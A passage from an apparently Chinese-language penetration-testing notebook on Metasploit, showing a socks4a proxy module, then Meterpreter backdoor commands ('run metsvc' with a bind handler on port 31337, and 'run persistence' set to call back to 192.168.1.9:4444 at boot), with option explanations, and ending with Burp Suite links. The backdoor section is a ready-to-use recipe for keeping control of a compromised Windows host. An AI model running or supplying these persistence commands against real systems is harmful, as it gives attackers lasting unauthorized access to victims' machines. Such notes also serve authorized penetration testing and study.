     use auxiliary/server/socks4a
    SRVHOST：监听的ip地址,默认为0.0.0.0,一般不需要更改。
    SRVPORT：监听的端口,默认为1080。
    直接运行run命令,就可以成功创建一个socks4代理隧道,在linux上可以配置proxychains使用,在windows可以配置Proxifier进行使用。
    ```

- 后门

    Meterpreter的shell运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用exploit获取权限,所以需要持久的后门对目标进行控制

    **metsvc**
    ```bash
    run metsvc
    # 命令运行成功后会在 C:WindowsTEMP 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)
    # 同时会新建一个服务,显示名称为Meterpreter,服务名称为metsvc,启动类型为"自动",绑定在31337端口。

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost xxx.xxx.xxx.xxx
    set lport 31337
    ```

    **persistence**
    ```bash
    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A：安装后门后,自动启动exploit/multi/handler模块连接后门
    -L：自启动脚本的路径,默认为%TEMP%
    -P：需要使用的payload,默认为windows/meterpreter/reverse_tcp
    -S：作为一个服务在系统启动时运行(需要SYSTEM权限)
    -T：要使用的备用可执行模板
    -U：用户登陆时运行
    -X：系统启动时运行
    -i：后门每隔多少秒尝试连接服务端
    -p：服务端监听的端口
    -r：服务端ip
    ```

---

## 抓包改包
### [Burp Suite](https://portswigger.net/)

**用法总结**
- burp小记 [md](./工具/burp小记.md)

**书**
- [Burp Suite 实战指南](https://t0data.gitbooks.io/burpsuite/content/)
